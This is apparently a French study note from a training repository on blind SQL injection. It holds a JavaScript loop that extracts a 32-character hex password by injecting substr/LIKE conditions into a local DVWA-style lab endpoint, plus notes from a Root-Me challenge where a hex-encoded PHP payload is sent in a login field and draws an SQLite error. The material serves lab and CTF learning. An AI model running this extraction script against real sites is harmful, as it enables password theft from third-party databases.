

# SQL Injection (Blind)


Exemple de boucle pour récupérer et tester toute les valeurs sur tous les caractères du mot de passe.

[Rappel : "abcdef0123456789" est le format hexadécimal !](https://sti2d.ecolelamache.org/ii_lhexadcimal.html)


```javascript
let idUser = 1;
let lettersPwd = [];

console.log("Recupération du MDP en cours ....");

"abcdef0123456789".split("").forEach((letter) => {
    for(i=1; i<=32;i++) {
        testLetter(letter, i);
    }
}
);

function testLetter(letter, position) {

    let injection = `${idUser}' AND substr( password , ${position}, 1) LIKE '${letter}' -- -`;
    fetch(`http://localhost:81/vulnerabilities/sqli_blind/?Submit=Submit&id=${injection}`).then( (response) => {
        if(response.ok) lettersPwd[position-1] = letter;
        if(lettersPwd.join('').length == 32) console.info(`le mdp : ${lettersPwd.join('')}`) 
    } );

}

```


### [SQL Injection - En aveugle](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-en-aveugle?lang=fr)



Dans cette exercice on remarque un formulaire avec action null ou cachée, avec 2 input (login, password) avec un submit.

J'aimerais lire le fichier index.php pour comprendre l'utilisation de la requête SQL 

Erreur php en hexa :
Erreur : + <?php echo(;>
Hexa : 3C3F706870206563686F283B3F3E


Login : "admin"
Password : " '3C3F706870206563686F283B3F3E

```php
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "3C3F706870206563686F283B3F3E" in /challenge/web-serveur/ch10/index.php on line 39
```

